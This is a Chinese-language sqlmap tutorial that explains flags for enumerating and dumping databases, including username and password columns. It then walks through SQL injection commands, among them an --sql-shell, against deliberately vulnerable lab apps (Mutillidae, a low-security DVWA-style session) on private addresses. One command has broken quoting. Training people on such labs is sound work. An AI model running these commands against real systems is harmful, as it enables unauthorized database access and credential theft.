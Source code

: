 

## 1.1 sqlmap 参数解析
```
--users       # 查看所有用户
--current-user   # 查看当用户
--dbs         # 查看所有数据库
--current-db   # 查看当前数据库
-D “database_name” --tables  # 查看表
-D “database_name” -T “table_name” --columns  # 查看表的列

--dump -all
--dump-all --exclude-sysdbs
-D “database_name” -T “table_name” --dump
-D “database_name” -T “table_name” -C “username,password” --dump

--batch  # 自动化完成
```

# 二、sqlmap自动化注入
 - GET方法注入
 - Post方式注入
 - 数据获取
 - 提权操作

## 2.4 提权操作
与数据库交互--sql-shell
```bash
sqlmap -u “http://192.168.xxx.xxx/test/?id=1” --cookie=”SESSIONID=xxxxxx;security=low;showhints=1”; acopendivids=swingset,jotto;acgroupswithpersist=nada” --batch --sql-shell

# 进入到了sql-shell命令行方式
sql-shell> select * from users;
```

## 示例步骤：
### 1.获得当前数据库
```bash
sqlmap -u “http://192.168.xx.xx/mutillidae/index.php?page=user-info.php&username=test&password=123&user-info-php-submit-button=View+Account+Details” --batch --current-db
```

### 2.获得数据库表
```bash
sqlmap -u “http://192.168.xx.xx/mutillidae/index.php?page=user-info.php&username=test&password=123&user-info-php-submit-button=View+Account+Details” --batch -D database --tables
```

### 3.获得表的字段
```bash
sqlmap -u “http://192.168.xx.xx/mutillidae/index.php?page=user-info.php&username=test&password=123&user-info-php-submit-button=View+Account+Details” --batch -D database -T accounts --columns
```
